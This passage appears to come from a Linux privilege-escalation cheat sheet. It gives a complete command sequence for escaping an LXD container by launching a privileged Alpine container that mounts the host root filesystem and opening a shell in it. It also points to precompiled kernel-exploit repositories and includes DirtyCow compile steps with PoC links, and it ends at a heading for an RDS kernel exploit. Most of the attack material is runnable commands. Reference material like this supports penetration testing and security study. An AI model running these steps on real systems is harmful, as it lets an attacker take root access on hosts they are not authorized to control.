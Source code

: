 Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```powershell
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Alternatively https://github.com/initstring/lxd_root

## Kernel Exploits

Precompiled exploits can be found inside these repositories, run them at your own risk !
* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)

The following exploits are known to work well, search for more exploits with `searchsploit -w linux kernel centos`.

Another way to find a kernel exploit is to get the specific kernel version and linux distro of the machine by doing `uname -a`
Copy the kernel version and distribution, and search for it in google or in https://www.exploit-db.com/.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```powershell
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### CVE-2010-3904 (RDS)

Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
